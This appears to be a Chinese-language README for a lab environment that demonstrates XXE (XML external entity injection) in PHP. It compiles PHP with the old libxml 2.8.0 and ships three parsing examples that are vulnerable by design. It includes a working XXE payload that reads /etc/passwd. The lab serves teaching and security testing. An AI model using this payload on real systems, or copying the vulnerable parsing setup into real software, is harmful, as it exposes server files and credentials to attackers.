 # PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.x 最新版
- Apache 2.x 稳定版
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker-compose build
docker-compose up -d
```

编译时间较长，请耐心等待。

环境启动后，访问`http://your-ip/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：

![](1.png)

更多高级利用方法，请自行探索。